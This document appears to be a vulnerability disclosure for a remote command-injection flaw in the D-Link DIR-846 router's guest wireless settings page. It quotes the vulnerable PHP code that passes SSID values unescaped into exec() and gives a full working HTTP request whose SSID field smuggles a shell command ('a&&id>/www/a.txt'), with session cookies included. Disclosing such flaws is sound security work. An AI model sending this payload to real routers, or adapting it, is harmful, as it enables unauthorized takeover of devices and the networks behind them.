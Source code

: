 ### Info of vulnerability
There is a remote RCE vulnerability in D-Link router on page /Guestwireless.html due to invalid sanitization, so attackers could execute arbitrary code. 

Vulnerable targets include but are not limited to the lastest firmware versions of DIR-846(100A35)

### Detail of vulnerability
The first vulnerable code is in file /www/HNAP1/control/SetGuestWLanSettings.php
```
        ... ...
74      $unicode_2 = $option["wl(0).(1)_ssid"];
75      exec("ssid_code set G2B 3 ssid_tmp1 '" . $unicode_2 . "'");
76      $unicode_5 = $option["wl(1).(1)_ssid"];
77      exec("ssid_code set G5B 1 ssid_tmp2 '" . $unicode_5 . "'");


```
Attacker could trigger this vulnerability in this way:

![poc](poc.png)

Malicious Request:
```
POST http://192.168.0.1 /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Proxy-Connection: keep-alive
Content-Length: 351
Accept: application/json
Origin: http://192.168.0.1
HNAP_AUTH: 866164AB3A175C358A2F5A80F1BF591E 1571916427322
SOAPACTION: "http://purenetworks.com/HNAP1/SetGuestWLanSettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36
Content-Type: application/json
Referer: http://192.168.0.1/Guestwireless.html?t=1571916385005
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cookie: sid=eea33228-f58c-11e9-b614-df9bf19cb824; uid=sB1xQK5E; PrivateKey=57FB98B6CA565BFA093D27DB0A2E1A9F; PHPSESSID=a85e4817b1c1dddd548b245b41acc35b; timeout=5

{"SetGuestWLanSettings":{"wl(0).(1)_enable":"1","wl(0).(1)_local_access":"0","wl(0).(1)_local_access_timeout":"0","wl(0).(1)_ssid":"a&&id>/www/a.txt","wl(0).(1)_crypto":"none","wl(0).(1)_preshared_key":"SFFMdk9xSE4=","wl(1).(1)_enable":"0","wl(1).(1)_ssid":"D-Link_DIR-846_5G_Guest","wl(1).(1)_preshared_key":"SFFMdk9xSE4=","wl(1).(1)_crypto":"none"}}
```
You can see this:

![a.txt](id.png)

